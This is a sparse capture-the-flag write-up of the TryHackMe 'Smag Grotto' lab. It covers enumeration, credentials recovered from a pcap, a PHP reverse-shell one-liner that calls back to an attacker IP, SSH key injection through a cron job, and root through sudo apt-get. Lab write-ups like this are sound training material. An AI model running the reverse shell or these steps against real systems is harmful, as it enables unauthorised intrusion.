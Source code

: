 ```yaml
---
layout: post
title: "SMAG-GROTTO | THM "
date: 2021-11-20 00:46:00 -0000
categories: CTF THM
---
```


<h3>Executive Summary</h3> 

<p> The server has hardcoded details present within a public facing email chain. Those credentials can be abused to get access to an admin portal and from there a reverse shell can be initiated. Once on the box itself, the ssh key infastructure is vulnerable to injection. An attacker can inject his own ssh key pair and move laterally from there. Once on as a regular user, credentials can be extracted from easily accessible log files. User can also escalate to root through sudo abuse of the apt-get program.  </p>


<h3>Technical Details</h3>
<h2>Enumeration</h2>

First, lets see what is running on the box: 

<p>nmap 10.10.6.75</p>
<p>Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 01:12 EST</p>
<p>Nmap scan report for 10.10.6.75</p>
<p>Host is up (0.085s latency).</p>
<p>Not shown: 998 closed tcp ports (conn-refused)</p>
<p>PORT   STATE SERVICE</p>
<p>22/tcp open  ssh</p>
<p>80/tcp open  http</p>

Lets navigate to the webserver that is running. Not much is here so lets enumerate the webserver: 

gobuster dir -w /SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.6.75 -x txt,php -t64 

/mail                 (Status: 301) [Size: 307] [--> http://10.10.6.75/mail/] 
/index.php            (Status: 200) [Size: 402]

<p>/mail is interesting. Upon investigation, there is a .pcap file discussed on this public facing webserver. There is a specific comment to use wget to download the file. If we download that file with wget and open with Wireshark, it is a short file with some TCP connections. Right clicking and selecting follow TCP stream will reveal some credentials being transmitted in clear text.</p>

<p>nice. There is one wrinkle, the POST request for this file is aimed at the hostname development.smag.thm. So, we need to tie that hostname to the IP address of the box. We can do that by editing our /etc/hosts file. </p>

10.10.6.75   development.smag.thm

Then we can navigate to the endpoint that was found in the PCAP file. Upon navigating there we find a login screen. 

<h2>Initial Foothold</h2>

When we login, there is a prompt that will let us send a command. Perfect for a reverse shell. A simple oneliner shell command from the Pentest Monkey will work. 

php -r '$sock=fsockopen("10.6.10.177",9999);exec("/bin/sh -i <&3 >&3 2>&3");'

<h2>Lateral Movement</h2>

id -> www and we can't read /home/jake/user.txt. After some basic linux enumeration, we find an interesting crontab. The public key is being regularly updated to the user's ssh directory. We can inject our own key pair after running ssh-keygen -o on our own box. Then wait. Then we can ssh with -i {path_to_key} jake@10.6.10.177

<h2>Priv Esc </h2>

Now we are in as Jake. Priv Esc isn't needed to read the root flag, you can just read the vim history. Run the classic sudo -l and we find a viable path to escalation through sudo apt-get. Follow the instructions on GTFO bins to acheive this. 



Sparse write up will be more detailed in future. 
